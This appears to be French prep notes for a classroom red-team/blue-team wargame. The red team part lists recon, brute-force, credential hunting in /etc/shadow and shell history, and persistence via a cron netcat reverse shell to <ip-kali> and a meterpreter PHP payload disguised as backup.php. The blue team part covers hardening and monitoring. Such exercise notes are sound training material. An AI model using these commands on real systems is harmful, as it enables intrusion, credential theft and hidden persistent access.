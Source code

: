 # Wargame

Notes de préparation pour le wargame par équipe de 6 dans le cadre du cours *Seminars, Challenges, Serious Games and Casus*.

- [Wargame](#wargame)
  - [Red Team](#red-team)
    - [Scanning de base](#scanning-de-base)
    - [Scan de vulnérabilité & exploitation avec metasploit](#scan-de-vulnérabilité--exploitation-avec-metasploit)
    - [Exploitation](#exploitation)
    - [Élévation de privilèges](#élévation-de-privilèges)
    - [Post-exploitation](#post-exploitation)
  - [Blue Team](#blue-team)
    - [Changement des mots de passe & interdictions de base](#changement-des-mots-de-passe--interdictions-de-base)
    - [Énumération des services et connexions](#énumération-des-services-et-connexions)
    - [Monitoring](#monitoring)
    - [Combler les failles](#combler-les-failles)





## Red Team


### Scanning de base

1. scanner le réseau `sudo nmap -sP <network>/<netmask>`
2. chaque personne scanne une machine `sudo nmap -p- -T4 <ip>`
3. scanner le site web `gobuster dir -w /usr/share/wordlists/... -u http://...`
4. chercher les fichiers intéressants comme `robots.txt`, `sitemap.xml`


### Scan de vulnérabilité & exploitation avec metasploit

1. scan de vulnérabilités `sudo nmap --script=vuln -p <port> <ip>`
2. recherche sur internet si on peut les exploiter avec metasploit
3. lancer metasploit `sudo msfconsole`


### Exploitation

1. chercher des failles là où il y a des inputs - on peut trouver plus facilement en fonction de la signature du serveur web (ex: python = template injection) - liste non-exhaustive:
    - template injection
    - command injection
    - code injection
    - injection sql
2. exploiter avec une reverse shell (générateur de reverse shells: https://www.revshells.com/) ou utiliser metasploit (quand c'est possible)
3. essayer de brute force les services qui s'y prêtent bien comme ssh, ftp, etc. dans les noms d'utilisateurs à tester, ajouter *Administrator*, *Student*, *user*, *prof* qui peuvent avoir été créés par les profs, pour les mots de passe ajouter *Tigrou007*, *Tigrou007=*, *user*, *root*, *toor*, etc.
4. si possibilité d'upload: https://github.com/flozz/p0wny-shell


### Élévation de privilèges

1. Obtenir des informations sur l'utilisateur et le système:
    - shell, utilisateur: `whoami`, `id`
    - variables d'environnement: `env`
    - commandes utilisées récemment: `history`
    - si le hostname est bizarre: `hostname`
2. Vérifier les permissions sudo:
    - `sudo -l`
    - `sudo -s`
    - `cat /etc/sudoers`
3. Chercher des credentials dans les fichiers web, bases de données, backups, répertoire personnel:
    - chercher dans les répertoires intéressants:
        - `ls -la $HOME`
        - `ls -la /var/spool/mail`
        - `ls -la /var/www/html`
    - chercher des hashs:
        - `cat /etc/passwd`
        - `cat /etc/shadow`
    - chercher le mdp dans l'historique des commandes:
        - `cat .bash_history | grep sudo`
        - `cat .bash_history | less`
        - `history`
    - chercher des backups/db:
        - `find / -name *.zip  2> /dev/null`
        - `find / -name *.back 2> /dev/null`
        - `find / -name *.db   2> /dev/null`
4. Chercher les fichiers édités récemment:
    - tous: `find / 2>/dev/null | grep -Ev "^/proc"`
    - depuis 10 min: `find / -mmin -10 2>/dev/null | grep -Ev "^/proc"`
5. Trouver les fichiers exécutables:
    - `echo $PATH`
    - `for item in $(echo "iptables perl python ruby gcc wget"); do which $item; done`
6. Trouver les fichiers avec SUID/GUID ou un accès en lecture/écriture étrange:
    - SUID/GUID: `find / -perm -g=s -o -perm -u=s -type f 2>/dev/null`
    - fichier avec permission d'écrire: `find / -writable -type f -o -writable -type d 2>/dev/null | grep -Ev "^(/proc|/home/user|/tmp)"`
    - dossier avec permission d'écrire: `find /\(-perm -o=w -perm -o=x\) -type d 2>/dev/null`
    - dossier avec permission d'exécuter: `find / -perm -o=x -type d 2>/dev/null`
7. Lister les services qui tournent:
    - `ps -ef | grep root`
    - `ps aux`
8. Lister les jobs cron:
    - `crontab -l`
    - `cat /etc/cron.allow`
    - `cat /etc/at.allow`
    - `cat /etc/cron*`
    - `cat /etc/crontab`
    - `cat /etc/anacrontab`
    - `cat /var/spool/cron/crontabs/root`
9. Kexploit/CVE:
    - `searchsploit linux kernel 3.9 –exclude="/dos/"`


### Post-exploitation

- Créer un compte privilégié pour pouvoir se reconnecter au système en cas de problème.
- Persistence avec un cron job shell ` * * * * * nc <ip-kali> <port> -e /bin/sh`
- Persistence avec un cron job shell:
    - faire un payload php avec metasploit
    ```
    msfconsole
    use multi/handler
    set payload php/meterpreter/reverse_tcp
    set LHOST <ip-kali>
    set LPORT <port>
    run
    ```
    - mettre le payload dans le fichier `/var/www/html/backup.php`
    - le rendre persistant avec un cron job: `* * * * * php -f /var/www/html/backup.php`
- Utiliser un rootkit: https://www.linode.com/docs/guides/linux-red-team-defense-evasion-rootkits/
- Mouvement latéral: https://www.linode.com/docs/guides/windows-red-team-lateral-movement-techniques/





## Blue Team


### Changement des mots de passe & interdictions de base

Si c'est autorisé, se connecter à tous les comptes et remplacer le mot de passe par quelque chose de solide.

Faire une GPO dans l'AD pour enlever l'accès à powershell et cmd aux utilisateurs non-admins (les mettre tous dans une OU, puis `gpmc.msc` *user config/admin templates/system/don't run specified windows applications* et ajouter `cmd.exe` et `powershell.exe`). Techniquement, il suffit de renommer l'application pour pouvoir la lancer. Il faut utiliser `gpupdate /force` sur toutes les machines pour le faire appliquer.


### Énumération des services et connexions

Énumération des services:
- Sur linux `systemctl list-units --type=service`
- Sur windows `Get-Service | Where-Object {$_.Status -eq "Running"}` ou `query session`

Énumération des connexions:
- Sur linux `sudo netstat -tulpen` (`sudo apt install net-tools`, on peut ajouter `| grep ESTABLISHED`), tuer le process avec `kill -9 <pid>`
- Sur windows `netstat -anob` (on peut ajouter `| Select-String ESTABLISHED`), si il y a une connexion suspecte (ex: port 4444), tuer le process avec `kill -id <pid>`

Si possible, mettre à jour les services qui écoutent pour une connexion.

### Monitoring

Si on a une GUI et une connexion internet sur windows, télécharger *Process Explorer* de *Sysinternals*: https://download.sysinternals.com/files/TCPView.zip (`curl -Outfile TCPView.zip <url>`)
- si possible, le lancer en administrateur pour pouvoir fermer les process
- ça s'appelle TCPView mais ça monitore aussi les connexions UDP

Si on a une GUI et une connexion internet sur windows, télécharger *Process Explorer* de *Sysinternals*: https://download.sysinternals.com/files/ProcessExplorer.zip (`curl -Outfile ProcessExplorer.zip <url>`)
- si possible, le lancer en administrateur
- ajouter la colonne *VirusTotal* qui scanne les DLL pour voir si elles sont malicieuses (options/VirusTotal.com/Check VirusTotal.com)
- possibilité de tuer un process et tous les sous-process qu'il lance (Attention à supprimer les bons process enfants, pas arrêter le service)
- afficher la ligne de commande ayant lancé les process pour voir les options passées (View/Select Columns.../Command Line)

Sur linux, on peut utiliser `htop` en ligne de commande (`sudo apt install htop`).


### Combler les failles

- Bloquer les connexions anonymes aux serveurs FTP/SSH.
- Cacher les versions des serveurs web (ils les affichent souvent dans un header http).
- Interdire les fonctions dangereuses (ex. en php : `shell_exec`, `eval`, `exec`, etc.).
- Bloquer le suivi des liens symboliques par les serveurs web.
- Empêcher l'indexage des dossiers par les serveurs web.
- Potentiellement chrooter les utilisateurs dans un dossier avec des accès minimums.
- Chercher si il n'y a pas des backups contenant des mots de passe dans le système de fichier, le cas échéant, le supprimer.

